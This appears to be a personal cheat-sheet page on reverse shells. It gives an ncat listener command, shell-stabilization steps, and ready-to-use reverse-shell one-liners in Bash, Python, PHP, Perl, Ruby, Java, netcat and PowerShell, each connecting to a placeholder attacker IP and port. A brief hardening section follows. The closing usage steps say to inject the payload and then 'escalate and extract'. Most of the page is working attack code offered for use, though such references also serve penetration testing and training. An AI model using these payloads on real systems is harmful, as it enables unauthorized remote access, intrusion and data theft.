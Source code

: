 ```yaml
---
layout: post
title: reverse-shell-cheatsheet
abbrlink: 1298c6380c45411bbde96a4ff1a7aa13
tags: []
categories:
  - redmind-docs
  - cheat-sheets
date: 1752437501231
updated: 1752437501231
---
```


## 📡 Listener Setup & Shell Stabilization

### Start Listener

```bash
ncat -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo
fg
export TERM=xterm
stty rows $(tput lines) columns $(tput cols)
clear
```

***

## 🐚 Bash Reverse Shell

```bash
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

***

## 🐍 Python Reverse Shell

```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

***

## 🐘 PHP Reverse Shell

```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
```

***

## 🧪 Perl Reverse Shell

```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

***

## 🕸️ Ruby Reverse Shell

```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

***

## ☕ Java Reverse Shell

```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

***

## 🔧 Netcat Reverse Shell

```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

***

## 🪟 PowerShell Reverse Shell (Windows)

```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

***

## 🔐 Hardening / Detection Notes

- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

***

**Usage**:

1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.
